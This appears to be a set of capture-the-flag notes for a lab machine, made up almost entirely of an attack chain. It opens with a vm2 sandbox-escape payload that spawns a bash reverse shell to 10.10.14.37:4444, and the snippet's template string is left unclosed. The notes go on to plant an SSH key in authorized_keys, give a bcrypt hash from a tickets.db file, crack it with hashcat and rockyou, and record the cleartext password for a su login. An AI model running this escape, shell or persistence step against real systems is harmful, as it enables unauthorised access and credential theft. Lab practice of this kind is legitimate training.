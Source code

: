 # ip
10.10.11.239

# rev shell
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("bash -c 'sh -i >& /dev/tcp/10.10.14.37/4444 0>&1'");
}

console.log(vm.run(code));

# connection ssh
~/.ssh/
ssh-keygen -f mykey
chmod 600 mykey
echo "<mykey.pub>" >> ~/.ssh/authorized_keys
ssh -i mykey <username>@<remote_ip>

# sql info
/var/www/contact/tickets.db
joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

# hash bcrypt
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2

# crack password hashcat
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
password:
spongebob1

su joshua
spongebob1